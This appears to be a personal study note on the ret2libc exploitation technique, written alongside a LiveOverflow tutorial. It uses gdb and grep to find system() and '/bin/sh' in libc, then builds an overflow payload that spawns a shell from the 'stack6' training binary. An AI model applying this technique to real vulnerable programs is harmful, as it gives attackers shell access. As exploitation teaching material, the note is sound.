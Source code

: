 > LiveOverFlow_bin_0x1D_First_remote_root_exploitret2libc 0x0F

#### __RETURN TO LIBC__
**Known as 'ret2libc'**

```text
Target		: system("/bin/sh") -> Execute shell command using 'system()'.
```
---

#### __LET UNDERSTAND WHAT HAPPEN WHEN SYSTEM IS CALLEDC__

**NOTE: A function points to an address where its INSTRUCTIONS live.**
```text
First, get the address of 'system'
(gdb) p system

Second, before 'eip' jump to 'system' address, the argument "/bin/sh" is pushed into the stack as a string.
eip		: instruction pointer.
```
...
```armasm
...	
mov DWORD PTR [esp], address1 <- contain the string "/bin/sh"
call address2 <system@plt>
...
```
...
```bash
(gdb) x/s address1
address1	: "/bin/sh"
```
###### **LET MAKE A PAYLOAD TO REPRODUCE THE STACK STATE AFTER *CALL* 'SYSTEM' WHICH EXECUTE A BASH INSTRUCTION**

```text
First, let find a string "/bin/sh" to put into the stack. We can search for it in the libc library.

	* first, find the library address.
	> (gdb) info proc map				: print address of memory regions and libraries.

	> (gdb) find libc_address +9999999, "/bin/sh"	: find start_addr, +len, val  <- search for 'val' in the memory region.
	  - find returns "find_addr".
	> x/s find_addr
	ALERT!!! The find technic doesn't work, or it does. I don't care at this point. USE the following technic:

        [shell]$ string -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"  : Search for "/bin/sh" and return its location inside 'libc' as hex address [x]
	> x/s libc_address + hex_addr			       : Add library address to hex_address return by 'grep' to get the real location.
	   - real_address:	"/bin/sh"

We already get the address of 'system' with "p system" <- print 'system' address
```

#### __PAYLOADC__

```text
payload = padding + system_address + return_addr_after_system + bin_sh  

ONE MORE TIME STACK STATE: Before the 'call system' instruction is executed, its parameter "/bin/sh" is store into the stack.
			 : Then, as for all 'call', the return address is pushed into the stack as well.
			 : Using a payload instead of the 'call' instruction, the addr of 'system' come before 'return_add' and 'param_addr'.
			 : The padding puts the 'system' address at the location pointed by "eip" <- INSTRUCTION POINTER. 


DON'T FORGET TO KEEP THE INPUT PIPE OPEN WITH 'cat'
(python exploit.py ; cat) | /repertory/stack6
```






